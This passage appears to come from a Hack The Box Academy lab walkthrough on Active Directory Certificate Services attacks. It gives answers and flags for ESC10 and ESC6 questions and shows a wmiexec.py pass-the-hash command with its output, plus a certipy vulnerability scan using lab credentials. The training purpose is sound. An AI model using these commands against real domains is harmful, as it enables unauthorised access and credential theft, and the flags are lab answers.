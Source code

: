 Alternatively, students can `pass-the-hash` `2b576acbe6bcfda7294d6bd18041b8fe` with `wmiexec.py` and exfiltrate the contents of the file `C:\Windows\System32\rbcd.txt` directly:

Code: shell

```shell
wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Windows\System32\rbcd.txt"
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Windows\System32\rbcd.txt"

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
HTB{ESC10_ATT4CK}
```

Answer: `HTB{ESC10_ATT4CK}`

## ESC6

### Question 1

#### "Which flag, if set, makes the server vulnerable to ESC6 if not updated?"

If the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag is set, it renders a CA vulnerable to `ESC6`, unless it is updated:

![ADCS\_Attacks\_Walkthrough\_Image\_1.png](https://academy.hackthebox.com/storage/walkthroughs/126/ADCS_Attacks_Walkthrough_Image_1.png)

Answer: `EDITF_ATTRIBUTESUBJECTALTNAME2`

## ESC6

### Question 2

#### "Abuse the ESC6 misconfiguration and submit Jeffry's NT hash."

After spawning the target machine, students need to use `certipy` with the `find` command and the `-vulnerable` option to enumerate the ADCS CA for vulnerabilities, utilizing the credentials `blwasp@lab.local:Password123!`; students will discover that the CA suffers from the `ESC6` misconfiguration:

Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip STMIP -vulnerable -stdout
```
